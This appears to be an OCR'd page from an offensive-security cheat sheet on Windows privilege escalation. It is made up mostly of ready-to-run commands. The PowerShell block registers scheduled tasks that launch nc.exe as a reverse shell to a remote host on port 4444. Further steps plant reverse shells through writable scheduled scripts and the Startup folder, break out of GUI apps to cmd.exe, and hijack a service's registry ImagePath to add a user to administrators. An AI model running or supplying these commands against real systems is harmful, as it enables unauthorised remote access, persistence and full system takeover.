 Make a scheduled task, that runs nc.exe, if lacking privileges give shell those upon new schedule task shell for another shell...
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe $ip 4444 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
# Catch reverse shell
# We may lack some privileges
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseWorkingSetPrivilege"
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs
# Catch another shell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe $ip 4444 -e cmd.exe`""
# Register SchedueledTask
Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms" -Principal $TaskPrincipal
# Start Task
Start-ScheduledTask -TaskName "GrantAllPerms"
```

## Scheduled Tasks with Sysinternals
```powershell
\accesschk.exe /accepteula -quvw user C:\ScheduleTask.ps1 # systernals - if running it can be run somehow as SYSTEM
# If writable:
echo reverseShell.exe >> C:\ScheduleTask.ps1 # append .exe
```

## Insecure GUI Apps
```
tasklist /V # GUI apps that can be run as Admin 
# In file dialogue box 
file://c:/windows/system32/cmd.exe
```

## Startup Applications 
```
# BEWARE YOU NEED TO RESTART/LOGOFF! Requires trigger!
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" # sysinternals
# Create a shortcut to your reverse shell in StartUp directory.
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# place reverse shell in C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

## Service Escalation Registry
```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Copy ‘C:\service.c # Edit file, either on box or on attack box, depending on local compiler and noise:
# replace or add a system() function call to:
"cmd.exe /k net localgroup adminstrators [username] /add"
# x86_64-w64-mingw32-gcc windows_service.c -o x.exe
# Copy back to /Temp
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f # Edit path
sc start regsvc
netlocalgroup administrators # check success
```
